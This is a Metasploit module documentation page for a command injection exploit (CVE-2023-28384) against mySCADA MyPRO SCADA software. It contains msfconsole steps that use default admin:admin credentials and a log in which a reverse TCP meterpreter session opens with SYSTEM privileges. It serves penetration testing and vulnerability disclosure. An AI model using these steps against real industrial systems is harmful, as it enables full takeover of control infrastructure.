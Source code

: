 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO <= v8.28.0 (CVE-2023-28384).

An authenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of `NT AUTHORITY\SYSTEM`.
This module uses the default admin:admin credentials, but any account configured on the system can be used to exploit this issue.

Versions <= 8.28.0 are affected. CISA published [ICSA-23-096-06](https://www.cisa.gov/news-events/ics-advisories/icsa-23-096-06) to cover the security issues. The official changelog for the updated version, v8.29.0, is available [here](https://web.archive.org/web/20230320130928/https://www.myscada.org/changelog/?section=version-8-29-0), although it only mentions a "General security improvement" without further details. 

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](http://nsa.myscada.org/myPRO/WIN/myPRO_x64_8.28.0.exe).
For the product to work correctly, the project and log directories need to be configured first, which can be done through the web inteface (navigate to System > Storage).

**Successfully tested on**

- mySCADA MyPRO 8.28.0 on Windows 10 22H2
- mySCADA MyPRO 8.27.0 on Windows 10 22H2
- mySCADA MyPRO 8.26.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Configure the project and log paths (System > Storage in the web interface, running by default on TCP ports 80 & 443)
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/mypro_cmdexe
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf6 exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Options
**USERNAME**

The username of a MyPRO user (default: admin)

**PASSWORD**

The associated password of the MyPRO user (default: admin)

## Scenarios

Running the exploit against MyPRO v8.28.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the following:

```
msf6 exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] Checking MyPRO version...
[+] Version retrieved: 8.28.0
[+] Version is vulnerable.
[*] Checking credentials...
[+] Credentials are working.
[*] Sending command injection...
[*] Using randomly generated email address: UUuZCNFXIghJ@Lbruq.com
[*] Sending stage (201798 bytes) to 192.168.1.239
[*] Meterpreter session 1 opened (192.168.1.241:4444 -> 192.168.1.239:49303) at 2024-07-22 16:17:57 -0400
[*] Exploit finished, check thy shell.

meterpreter > shell
Process 9252 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```